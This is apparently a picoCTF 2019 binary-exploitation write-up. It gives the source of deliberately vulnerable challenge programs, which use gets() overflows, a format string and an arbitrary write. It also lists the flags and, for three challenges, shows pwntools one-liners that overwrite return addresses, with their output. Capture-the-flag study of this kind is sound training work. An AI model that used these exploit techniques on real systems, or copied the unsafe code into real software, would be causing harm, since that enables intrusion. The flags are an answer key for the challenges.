<h1 align="center">Binary Exploitation</h1>


<h3>handy-shellcode - Points: 50</h3>
This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_6_f0b84e12a8162d64291fd16755d233eb on the shell server. Source.


``` shell

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}

```

<p align="center"></img></p>


<p align="center"></img></p>


``` shell
Flag: picoCTF{h4ndY_d4ndY_sh311c0d3_15d47ccd}
```

<h3>practice-run-1 - Points: 50</h3>
You're going to need to know how to run programs if you're going to get out of here. Navigate to /problems/practice-run-1_0_62b61488e896645ebff9b6c97d0e775e on the shell server and run this program to receive a flag.


``` shell

root@Bl4st3r:/media/sf_D_DRIVE/picoctf19/pwn# ./run_this
picoCTF{g3t_r3adY_2_r3v3r53}

Flag: picoCTF{g3t_r3adY_2_r3v3r53}
```

<h3>OverFlow 0 - Points: 100</h3>
This should be easy. Overflow the correct buffer in this program and get a flag. Its also found in /problems/overflow-0_3_dc6e55b8358f1c82f03ddd018a5549e0 on the shell server. Source.


``` shell

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}

```

<p align="center"></img></p>

``` shell
Flag: picoCTF{3asY_P3a5y1fcf81f9}
```

<h3>OverFlow 1 - Points: 150</h3>
You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this program? You can find it in /problems/overflow-1_1_e792baa0d29d24699530e6a26071a260 on the shell server. Source.


``` shell

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}

```
<p align="center"></img></p>

<p align="center"></img></p>

<p align="center"></img></p>

<p align="center"></img></p>


``` shell
Flag: picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}
```

<h3>NewOverFlow-1 - Points: 200</h3>
Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this program. You can find it in /problems/newoverflow-1_0_f9bdea7a6553786707a6d560decc5d50 on the shell server. Source.


``` shell

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}

```
``` shell
With cyclic we go have our padding. After search address of flag, match in local but on the server, it's address of flag+1.

c1ph3r3d@pico-2019-shell1:/problems/newoverflow-1_0_f9bdea7a6553786707a6d560decc5d50$ python -c "from pwn import *; print 'A'*72+p64(0x0000000000400767)" | ./vuln
Welcome to 64-bit. Give me a string that gets you the flag: 
Segmentation fault (core dumped)
c1ph3r3d@pico-2019-shell1:/problems/newoverflow-1_0_f9bdea7a6553786707a6d560decc5d50$ python -c "from pwn import *; print 'A'*72+p64(0x0000000000400768)" | ./vuln
Welcome to 64-bit. Give me a string that gets you the flag: 
picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_1a8eb93a}
Segmentation fault (core dumped)

Flag: picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_1a8eb93a}
```


<h3>slippery-shellcode - Points: 200</h3>
This program is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/slippery-shellcode_3_68613021756bf004b625d7b414243cd8 on the shell server. Source.


``` shell

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 512
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing from a random location now...");

  int offset = (rand() % 256) + 1;
  
  ((void (*)())(buf+offset))();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}


```

<p align="center"></img></p>

<p align="center"></img></p>


``` shell
Flag: picoCTF{sl1pp3ry_sh311c0d3_de21cb07}
```

<h3>NewOverFlow-2 - Points: 250</h3>
Okay now lets try mainpulating arguments. program. You can find it in /problems/newoverflow-2_2_1428488532921ee33e0ceb92267e30a7 on the shell server. Source.


``` shell

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

bool win1 = false;
bool win2 = false;

void win_fn1(unsigned int arg_check) {
  if (arg_check == 0xDEADBEEF) {
    win1 = true;
  }
}

void win_fn2(unsigned int arg_check1, unsigned int arg_check2, unsigned int arg_check3) {
  if (win1 && \
      arg_check1 == 0xBAADCAFE && \
      arg_check2 == 0xCAFEBABE && \
      arg_check3 == 0xABADBABE) {
    win2 = true;
  }
}

void win_fn() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  if (win1 && win2) {
    printf("%s", flag);
    return;
  }
  else {
    printf("Nope, not quite...\n");
  }

}

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Can you match these numbers?");
  vuln();
  return 0;
}

```
``` shell
With cyclic we go have our padding. After search address of flag, match in local but on the server, it's address of flag+1.

c1ph3r3d@pico-2019-shell1:/problems/newoverflow-2_2_1428488532921ee33e0ceb92267e30a7$ python -c "from pwn import *; print 'A'*72+p64(0x000000000040084d)" | ./vuln
Welcome to 64-bit. Can you match these numbers?
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/c1ph3r3d/.pwntools-cache/update to 'never'.
[*] You have the latest version of Pwntools (3.12.2)
Segmentation fault (core dumped)
c1ph3r3d@pico-2019-shell1:/problems/newoverflow-2_2_1428488532921ee33e0ceb92267e30a7$ python -c "from pwn import *; print 'A'*72+p64(0x000000000040084e)" | ./vuln
Welcome to 64-bit. Can you match these numbers?
picoCTF{r0p_1t_d0nT_st0p_1t_64362a2b}
Segmentation fault (core dumped)

Flag: picoCTF{r0p_1t_d0nT_st0p_1t_64362a2b}
```

<h3>OverFlow 2 - Points: 250</h3>
Now try overwriting arguments. Can you get the flag from this program? You can find it in /problems/overflow-2_1_210f23786438d7f7e527f4901367a74b on the shell server. Source.


``` shell

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```
``` shell
With cyclic we go have our padding. After search address of flag + our padding for arg1 and arg2.

c1ph3r3d@pico-2019-shell1:/problems/overflow-2_1_07eefb4b4555fc2cfb4dfa2db8fd8e13$ python -c "from pwn import *; print 'A'*188+ p32(0x080485e6)+'BBBB'+p32(0xDEADBEEF)+p32(0xC0DED00D)" | ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBﾭ�
picoCTF{arg5_and_r3turn50ecb40a5}Segmentation fault (core dumped)

Flag: picoCTF{arg5_and_r3turn50ecb40a5}
```

<h3>stringzz - Points: 300</h3>
Use a format string to pwn this program and get a flag. Its also found in /problems/stringzz_2_a90e0d8339487632cecbad2e459c71c4 on the shell server. Source.


``` shell

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAG_BUFFER 128
#define LINE_BUFFER_SIZE 2000

void printMessage3(char *in)
{
  puts("will be printed:\n");
  printf(in);
}
void printMessage2(char *in)
{
  puts("your input ");
  printMessage3(in);
}

void printMessage1(char *in)
{
  puts("Now ");
  printMessage2(in);
}

int main (int argc, char **argv)
{
    puts("input whatever string you want; then it will be printed back:\n");
    int read;
    unsigned int len;
    char *input = NULL;
    getline(&input, &len, stdin);
    //There is no win function, but the flag is wandering in the memory!
    char * buf = malloc(sizeof(char)*FLAG_BUFFER);
    FILE *f = fopen("flag.txt","r");
    fgets(buf,FLAG_BUFFER,f);
    printMessage1(input);
    fflush(stdout);
 
}

```

<p align="center"></img></p>

<p align="center"></img></p>


``` shell
Flag: picoCTF{str1nG_CH3353_166b95b4}
```


<h3>GoT - Points: 350</h3>
You can only change one address, here is the problem: program. It is also found in /problems/got_2_e69c12130456389b85a8174346be3689 on the shell server. Source.


``` shell

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#define FLAG_BUFFER 128

void win() {
  char buf[FLAG_BUFFER];
  FILE *f = fopen("flag.txt","r");
  fgets(buf,FLAG_BUFFER,f);
  puts(buf);
  fflush(stdout);
}


int *pointer;

int main(int argc, char *argv[])
{
  
   puts("You can just overwrite an address, what can you do?\n");
   puts("Input address\n");
   scanf("%d",&pointer);
   puts("Input value?\n");
   scanf("%d",pointer);
   puts("The following line should print the flag\n");
   exit(0);
}


```

<p align="center"></img></p>


``` shell
Flag: picoCTF{A_s0ng_0f_1C3_and_f1r3_92b89b47}
```


<p align="left"><a href="https://github.com/Ne0Lux-C1Ph3r/WRITE-UP/blob/master/picoCTF2019/index.md">Return to the main menu</a></p>

